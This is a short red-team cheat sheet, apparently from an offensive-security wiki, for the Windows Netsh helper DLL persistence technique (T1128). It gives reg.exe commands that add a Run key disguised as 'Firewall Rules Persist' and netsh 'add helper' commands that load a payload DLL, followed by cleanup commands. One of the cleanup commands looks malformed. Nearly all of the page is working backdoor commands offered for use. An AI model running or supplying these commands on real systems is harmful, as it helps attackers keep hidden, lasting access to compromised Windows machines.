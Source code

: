 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1128
  - windows
---
```

# Netsh

## Backdoor

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f

C:\> netsh.exe add helper C:\path\to\payload.dll
```

Interactive prompt.

```
C:\> netsh.exe

netsh> add helper C:\path\to\payload.dll
```

## CleanUp

To cleanup the backdoor just specify the path to DLL payload.

```
C:\> netsh.exe delete helper C:\path\to\payload.dll
```

This can be done with an interactive prompt.

```
C:\> netsh.exe

netsh> delete helper C:\path\to\payload.dll
```

Delete the registry entry.

```
C:\> reg.exe delete "HKLM\SOFTWARE\Microsoft\NetSh" /v payload /f

C:\> reg.exe delete "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f
```

---
## References

### Persistence Info

- [Persistence Info: `netsh.exe` extensions ](https://persistence-info.github.io/Data/netsh.html)

### Red Team Notes

- [Red Team Notes: NetSh Helper DLL](https://www.ired.team/offensive-security/persistence/t1128-netsh-helper-dll)